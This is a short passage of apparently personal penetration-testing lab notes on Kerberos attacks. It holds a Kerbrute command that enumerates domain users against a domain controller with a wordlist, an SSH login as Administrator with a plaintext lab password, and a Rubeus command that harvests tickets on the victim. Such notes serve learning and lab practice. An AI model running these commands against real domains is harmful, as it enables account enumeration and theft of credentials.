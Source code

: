 ## Enumeration w/ Kerbrute

This will brute force user accounts from a domain controller using a supplied wordlist

```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Harvesting & Brute-Forcing Tickets w/ Rubeus

Login with provided credentials

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

Harvest tickets with Rubeus

**Victim**

```
cd Downloads
Rubeus.exe harvest /interval:30
```
